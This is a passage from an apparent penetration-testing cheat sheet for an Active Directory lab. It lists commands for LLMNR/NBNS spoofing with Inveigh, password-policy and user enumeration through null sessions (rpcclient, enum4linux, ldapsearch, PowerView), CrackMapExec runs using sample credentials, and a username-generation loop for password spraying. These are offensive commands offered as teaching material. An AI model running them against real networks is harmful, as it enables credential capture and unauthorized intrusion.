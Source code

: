 Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host. |

| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`    | Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |

| `.\Inveigh.exe`                                              | Starts the `C#` implementation of `Inveigh` from a Windows-based host. |

| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \|foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host.  |

  
  
  

# Password Spraying & Password Policies

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `#!/bin/bash  for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}     do echo $x; done` | Bash script used to generate `16,079,616` possible username combinations from a Linux-based host. |

| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Uses `CrackMapExec`and valid credentials (`avazquez:Password123`) to enumerate the password policy (`--pass-pol`) from a Linux-based host. |

| `rpcclient -U "" -N 172.16.5.5`                              | Uses `rpcclient` to discover information about the domain through `SMB NULL` sessions. Performed from a Linux-based host. |

| `rpcclient $> querydominfo`                                  | Uses `rpcclient` to enumerate the password policy in a target Windows domain from a Linux-based host. |

| `enum4linux  -P 172.16.5.5`                                  | Uses `enum4linux` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host. |

| `enum4linux-ng -P 172.16.5.5 -oA ilfreight`                  | Uses `enum4linux-ng` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the `-oA` option. |

| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength` | Uses `ldapsearch` to enumerate the password policy in a  target Windows domain from a Linux-based host. |

| `net accounts`                                               | Used to enumerate the password policy in a Windows domain from a Windows-based host. |

| `Import-Module .\PowerView.ps1`                              | Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host. |

| `Get-DomainPolicy`                                           | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |

| `enum4linux -U 172.16.5.5  \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"` | Uses `enum4linux` to discover user accounts in a target Windows domain, then leverages `grep` to filter the output to just display the user from a Linux-based host. |

| `rpcclient -U "" -N 172.16.5.5  rpcclient $> enumdomuser`    | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |

| `crackmapexec smb 172.16.5.5 --users`                        | Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host. |

| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  \| grep sAMAccountName: \| cut -f2 -d" "` | Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host. |

| `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`              | Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host. |
